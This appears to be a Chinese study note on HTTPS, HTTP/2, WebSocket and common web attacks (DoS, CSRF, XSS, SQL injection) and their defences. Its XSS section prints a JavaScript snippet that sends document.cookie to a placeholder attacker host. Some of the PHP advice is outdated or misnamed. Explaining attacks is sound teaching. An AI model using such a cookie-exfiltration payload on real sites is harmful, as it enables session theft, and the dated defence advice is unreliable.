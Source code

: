 **https**

http = tcp + http协议
https = http + ssl

**HTTP2.0的新特性**

新的二进制格式（Binary Format），HTTP1.x的解析是基于文本。基于文本协议的格式解析存在天然缺陷，文本的表现形式有多样性，要做到健壮性考虑的场景必然很多，二进制则不同，只认0和1的组合。基于这种考虑HTTP2.0的协议解析决定采用二进制格式，实现方便且健壮。

多路复用（MultiPlexing），即连接共享，即每一个request都是是用作连接共享机制的。一个request对应一个id，这样一个连接上可以有多个request，每个连接的request可以随机的混杂在一起，接收方可以根据request的 id将request再归属到各自不同的服务端请求里面。

**websocket**

WebSocket是基于HTTP1.1的协议，可以简单理解为创建了一条TCP连接，具有双向传输二进制等特性。而HTTP2.0则是对HTML、CSS等JS资源的传输方式进行了优化，并没有提供新的JS API，也不能用于实时传输消息。


### web安全

**DoS和DDoS攻击**

伪造大量不存在的ip发送请求给服务器，服务器三步握手时收不到回应会有个长时间的半连接状态，消耗大量资源。

**CSRF攻击**

b网站利用已登录a网站的cookie，发送恶意请求道a网站

Anti-CSRF-Token防御 即发送请求时在HTTP 请求中以参数的形式加入一个随机产生的token，并在服务器建立一个拦截器来验证这个token。服务器读取浏览器当前域cookie中这个token值，会进行校验该请求当中的token和cookie当中的token值是否都存在且相等，才认为这是合法的请求

**XSS攻击**

跨站脚本攻击，XSS跨站脚本攻击本身对Web服务器没有直接的危害，它借助网站进行传播，使网站上大量用户受到攻击。攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上悄悄执行。

如下制造出一个链接：
```
vari=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
防范措施

输入过滤，在PHP中，有htmlentities()和htmlspecialchars()两个函数可以满足安全要求。相应的JavaScript的编码方式可以使用JavascriptEncode。

HttpOnly Cookie

**SQL注入攻击**

SQL注入常见的注入方式有：
(1) 内联SQL注入。向查询注入一些SQL代码后，原来的查询仍然会全部执行。内联SQL注入包含字符串内联SQL注入和数字内联SQL注入。
(2) 终止式SQL注入。攻击者在注入SQL代码时，通过注释剩下的查询来成功结束该语句。

对于SQL注入攻击，我们可以做如下防范：
(1) 防止系统敏感信息泄露。设置php.ini选项display_errors=off，防止php脚本出错之后，在web页面输出敏感信息错误，让攻击者有机可乘。
(2) 数据转义。设置php.ini选项magic_quotes_gpc=on，它会将提交的变量中所有的’(单引号)，”(双引号)，\(反斜杠)，空白字符等都在前面自动加上\。或者采用mysql_real_escape()函数或addslashes()函数进行输入参数的转义。
(3) 增加黑名单或者白名单验证。白名单验证一般指，检查用户输入是否是符合预期的类型、长度、数值范围或者其他格式标准。黑名单验证是指，若在用户输入中，包含明显的恶意内容则拒绝该条用户请求。在使用白名单验证时，一般会配合黑名单验证。 
